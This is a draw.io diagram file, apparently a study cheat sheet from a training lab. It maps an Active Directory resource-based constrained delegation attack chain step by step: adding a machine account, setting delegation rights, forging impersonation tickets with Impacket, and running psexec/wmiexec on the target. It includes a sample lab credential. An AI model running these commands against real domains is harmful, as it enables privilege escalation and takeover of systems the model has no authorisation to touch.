        <mxCell id="-mCO11fVwZeK89IVwwup-28" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="VL_DeuJodb9uclPqMyuw-138" target="-mCO11fVwZeK89IVwwup-25">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-138" value="&lt;div&gt;Connect to the Target Machine&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="230" y="5574" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-139" value="&lt;div&gt;PS&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="390" y="5574" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-140" value="&lt;div&gt;PS C:\Tools&amp;gt; ls \\&amp;lt;targetname&amp;gt;.&amp;lt;fqdn&amp;gt;\c$&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="390" y="5632" width="390" height="32" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-147" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-143" target="VL_DeuJodb9uclPqMyuw-144" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-143" value="&lt;div&gt;Clear Attribute&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="230" y="5900" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-144" value="&lt;div&gt;PS&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="390" y="5900" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-145" value="&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; $credentials = New-Object System.Management.Automation.PSCredential &quot;INLANEFREIGHT\carole.holmes&quot;, (ConvertTo-SecureString &quot;Y3t4n0th3rP4ssw0rd&quot; -AsPlainText -Force)&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Get-DomainComputer DC01 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity -Credential $credentials -Verbose&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="390" y="5958" width="390" height="142" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-1" value="&lt;div&gt;Impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="410" y="4358.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-2" value="&lt;div&gt;kali$ addcomputer.py -computer-name &amp;lt;computer-name&amp;gt; -computer-pass &amp;lt;pass&amp;gt; -dc-ip &amp;lt;dc-ip&amp;gt; &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="410" y="4418" width="390" height="72" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-4" value="&lt;div&gt;Note&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="410" y="4006" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-5" value="Note: We can use BloodHound.py to enumerate the domain, searching for privileges to abuse for RBCD from Linux." style="whiteSpace=wrap;html=1;rounded=0;align=left;strokeColor=light-dark(#ff0000, #ededed);" vertex="1" parent="1">
          <mxGeometry x="410" y="4066" width="390" height="70" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-7" value="&lt;div&gt;python&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="410" y="4820" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-8" value="&lt;div&gt;&lt;div&gt;kali$ python3 rbcd.py -dc-ip &amp;lt;dc-ip&amp;gt; -t &amp;lt;named-target&amp;gt; -f &amp;lt;computer-name&amp;gt; &amp;lt;domain&amp;gt;\\&amp;lt;user&amp;gt;:&amp;lt;pass&amp;gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="410" y="4879.5" width="390" height="60.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-19" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-11" target="-mCO11fVwZeK89IVwwup-17">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-21" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-11" target="-mCO11fVwZeK89IVwwup-20">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-11" value="&lt;div&gt;Retrieve the Kerberos Ticket&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="870" y="5001.5" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-17" value="&lt;div&gt;impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1075" y="5001.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-18" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;kali$ getST.py -spn &amp;lt;service&amp;gt;/&amp;lt;targetname&amp;gt;.&amp;lt;fqdn&amp;gt; -impersonate &amp;lt;user-to-impersonate&amp;gt; -dc-ip &amp;lt;dc-ip&amp;gt; &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;:&amp;lt;pass&amp;gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1075" y="5061" width="390" height="69" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-24" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-20" target="-mCO11fVwZeK89IVwwup-22">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-27" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.75;entryY=0;entryDx=0;entryDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-20" target="VL_DeuJodb9uclPqMyuw-138">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="930" y="5520" />
              <mxPoint x="320" y="5520" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-20" value="&lt;div&gt;Add the Ticket to KRB5CCNAME&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="870" y="5200" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-22" value="&lt;div&gt;Linux&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1075" y="5200" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-23" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;kali$ export KRB5CCNAME=&amp;lt;ccache-file&amp;gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1075" y="5259.5" width="390" height="50.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-25" value="&lt;div&gt;Impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="390" y="5690" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-26" value="&lt;div&gt;kali$ psexec.py -k -no-pass &amp;lt;targetname&amp;gt;.&amp;lt;fqdn&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="390" y="5749.5" width="390" height="50.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-34" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-32" target="VL_DeuJodb9uclPqMyuw-107">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-35" value="YES" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-34">
          <mxGeometry x="-0.134" y="1" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-38" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-32" target="-mCO11fVwZeK89IVwwup-37">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="310" y="4150" />
              <mxPoint x="900" y="4150" />
              <mxPoint x="900" y="4448" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-39" value="NO" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-38">
          <mxGeometry x="-0.929" y="-1" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-32" value="MachineAccountQuota &amp;gt; 0 ?" style="rhombus;whiteSpace=wrap;html=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="250" y="4030" width="80" height="80" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-45" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-37" target="-mCO11fVwZeK89IVwwup-41">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-37" value="&lt;div&gt;When MachineAccountQuota Is Set to 0&lt;/div&gt;" style="shape=label;whiteSpace=wrap;html=1;backgroundOutline=1;rounded=0;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="960" y="4418" width="160" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-46" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;dashed=1;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-41" target="-mCO11fVwZeK89IVwwup-43">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-48" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-41" target="-mCO11fVwZeK89IVwwup-47">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-41" value="&lt;div&gt;NT hash from the password in plain text&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="980" y="4550" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-43" value="&lt;div&gt;pypykatz&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1169" y="4550" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-44" value="&lt;div&gt;kali$ pypykatz crypto nt &amp;lt;pass&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1169" y="4609.5" width="390" height="40.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-52" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-47" target="-mCO11fVwZeK89IVwwup-50">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-54" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-47" target="-mCO11fVwZeK89IVwwup-53">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="1040" y="4880" />
              <mxPoint x="1590" y="4880" />
              <mxPoint x="1590" y="4500" />
              <mxPoint x="1680" y="4500" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-47" value="&lt;div&gt;Retrieve TGT&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="980" y="4710" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-50" value="&lt;div&gt;impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1169" y="4710" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-51" value="&lt;div&gt;kali$ getTGT.py &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt; -hashes :&amp;lt;nt-hash&amp;gt; -dc-ip &amp;lt;ip&amp;gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1169" y="4769.5" width="390" height="70.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-57" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-53" target="-mCO11fVwZeK89IVwwup-55">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-59" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-53" target="-mCO11fVwZeK89IVwwup-58">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-53" value="&lt;div&gt;Obtain the Ticket Session Key&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="1620" y="4549.5" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-55" value="&lt;div&gt;impacket&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1780" y="4549.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-56" value="&lt;div&gt;&lt;div&gt;kali$ describeTicket.py &amp;lt;ccache-file&amp;gt; | grep &#39;Ticket Session Key&#39;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1780" y="4609" width="390" height="70.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-62" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-58" target="-mCO11fVwZeK89IVwwup-60">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-64" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-58" target="-mCO11fVwZeK89IVwwup-63">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-58" value="&lt;div&gt;Change the User&#39;s Password&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="1620" y="4770" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-60" value="impacket" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1780" y="4769.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-61" value="&lt;div&gt;kali$ changepasswd.py &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt;@&amp;lt;ip&amp;gt; -hashes :&amp;lt;nt-hash&amp;gt; -newhash :&amp;lt;nt-hash-for-new-pass&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1780" y="4829" width="390" height="70.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-67" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-63" target="-mCO11fVwZeK89IVwwup-65">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-69" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;strokeColor=#FF0000;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-63" target="-mCO11fVwZeK89IVwwup-68">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-63" value="&lt;div&gt;Request a Service Ticket&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="1620" y="4943.5" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-65" value="impacket" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1780" y="4943.5" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-66" value="&lt;div&gt;kali$ KRB5CCNAME=&amp;lt;ccache-file&amp;gt;&lt;/div&gt;&lt;div&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;kali$&lt;/span&gt;&amp;nbsp;getST.py -u2u -impersonate &amp;lt;user-to-impersonate&amp;gt; -spn &amp;lt;service&amp;gt;/&amp;lt;targetname&amp;gt;.&amp;lt;fqdn&amp;gt; -no-pass &amp;lt;fqdn&amp;gt;/&amp;lt;user&amp;gt; -dc-ip &amp;lt;ip&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1780" y="5003" width="390" height="70.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-72" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="-mCO11fVwZeK89IVwwup-68" target="-mCO11fVwZeK89IVwwup-70">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-68" value="&lt;div&gt;Access&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" vertex="1" parent="1">
          <mxGeometry x="1620" y="5119" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-70" value="impacket" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="1780" y="5119" width="620" height="60" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-71" value="&lt;div&gt;kali$ KRB5CCNAME=&amp;lt;ccache-file&amp;gt;&amp;nbsp;&lt;/div&gt;&lt;div&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;kali$&amp;nbsp;&lt;/span&gt;&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;wmiexec.py &amp;lt;targetname&amp;gt;.&amp;lt;fqdn&amp;gt; -k -no-pass&lt;/span&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" vertex="1" parent="1">
          <mxGeometry x="1780" y="5178.5" width="620" height="70.5" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-73" value="LINUX" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
          <mxGeometry x="460" y="-10" width="190" height="40" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-74" value="WINDOWS" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" vertex="1" parent="1">
          <mxGeometry x="460" y="45" width="190" height="40" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-75" value="BOTH" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#fff2cc;strokeColor=#d6b656;" vertex="1" parent="1">
          <mxGeometry x="460" y="100" width="190" height="40" as="geometry" />
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-76" value="" style="endArrow=classic;html=1;rounded=0;strokeColor=#FF0000;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="740" y="50" as="sourcePoint" />
            <mxPoint x="790" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-77" value="LINUX ONLY PATH" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-76">
          <mxGeometry x="-0.113" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-78" value="" style="endArrow=classic;html=1;rounded=0;strokeColor=#3333FF;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="750" y="111" as="sourcePoint" />
            <mxPoint x="800" y="61" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-79" value="WINDOWS ONLY PATH" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-78">
          <mxGeometry x="-0.113" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-80" value="" style="endArrow=classic;html=1;rounded=0;strokeColor=#FF8000;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="900" y="80" as="sourcePoint" />
            <mxPoint x="950" y="30" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-81" value="Just a hunch what could also work" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="-mCO11fVwZeK89IVwwup-80">
          <mxGeometry x="-0.113" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="-mCO11fVwZeK89IVwwup-82" value="Very noisy code" style="whiteSpace=wrap;html=1;rounded=0;strokeWidth=3;strokeColor=#FF0000;" vertex="1" parent="1">
          <mxGeometry x="1062.5" y="45" width="255" height="40" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
